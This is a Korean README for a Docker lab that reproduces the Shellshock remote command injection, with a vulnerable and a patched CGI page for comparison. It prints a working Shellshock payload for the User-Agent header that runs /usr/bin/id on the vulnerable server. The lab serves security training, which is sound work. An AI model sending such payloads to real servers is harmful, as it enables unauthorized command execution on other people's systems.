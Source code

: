 # Shellshock Remote Command Injection
**Contributor** <br>
[이정빈(binsh0501)](https://github.com/binsh0501)

취약한 환경 구축 및 실행
```
docker compose build
docker compose up -d
```
`http://your-ip/` 에 방문하면 두 개의 파일이 표시됩니다.
- safe.cgi
- victim.cgi

safe.cgi 는 최신 버전 bash 에서 생성되었으며 victim.cgi 는 Shellshock에 취약한 bash 4.3 에서 생성된 페이지입니다.
victim.cgi 를 방문할 때 user-agent 문자열에 페이로드를 포함시켜 보낼 수 있고 명령이 성공적으로 실행됩니다.<br>
`() { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id`<br>
![image](https://github.com/binsh0501/whitehat-school-vulhub/assets/116350984/af6332d1-1a33-4f48-a678-2b7d67614fa2)

safe.cgi 로 전송된 동일한 요청은 영향을 받지 않습니다.

![image](https://github.com/binsh0501/whitehat-school-vulhub/assets/116350984/d732ba21-1cbb-4465-abc9-f0fae90fdb40)
